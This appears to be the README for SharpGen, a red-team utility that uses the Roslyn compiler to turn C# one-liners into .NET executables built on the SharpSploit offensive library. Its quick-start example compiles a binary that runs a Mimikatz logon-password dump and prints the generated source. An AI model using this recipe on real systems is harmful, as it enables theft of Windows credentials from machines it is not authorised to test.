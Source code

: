 # SharpGen

[SharpGen](https://github.com/cobbr/SharpGen) is a .NET Core console application that utilizes the [Rosyln](https://github.com/dotnet/roslyn) C# compiler to quickly cross-compile .NET Framework console applications or libararies.

### Intro

You'll find details and motivations for the SharpGen project in this [introductory blog post](https://cobbr.io/SharpSploit.html).

### Quick Start

The most basic usage of SharpGen would be to provide SharpGen an output filename and a C# one-liner that you’d like to execute. SharpGen will generate a .NET Framework console application that will execute the one-liner. For example:

```
cobbr@mac:~ > git clone https://github.com/cobbr/SharpGen
cobbr@mac:~ > cd SharpGen
cobbr@mac:~/SharpGen > dotnet build
cobbr@mac:~/SharpGen > dotnet bin/Release/netcoreapp2.1/SharpGen.dll -f example.exe "Console.WriteLine(Mimikatz.LogonPasswords());"
[+] Compiling source:
using System;
using System.IO;
using System.Text;
using System.Linq;
using System.Security.Principal;
using System.Collections.Generic;
using SharpSploit.Credentials;
using SharpSploit.Enumeration;
using SharpSploit.Execution;
using SharpSploit.LateralMovement;
using SharpSploit.Generic;
using SharpSploit.Misc;

public static class jZTyloQN2SU4
{
    static void Main()
    {
        Console.WriteLine(Mimikatz.LogonPasswords());
	    return;
    }
}
[+] Compiling optimized source:
using System;
using SharpSploit.Credentials;

public static class jZTyloQN2SU4
{
    static void Main()
    {
        Console.WriteLine(Mimikatz.LogonPasswords());
	    return;
    }
}
[*] Compiled assembly written to: /Users/cobbr/SharpGen/Output/example.exe
```
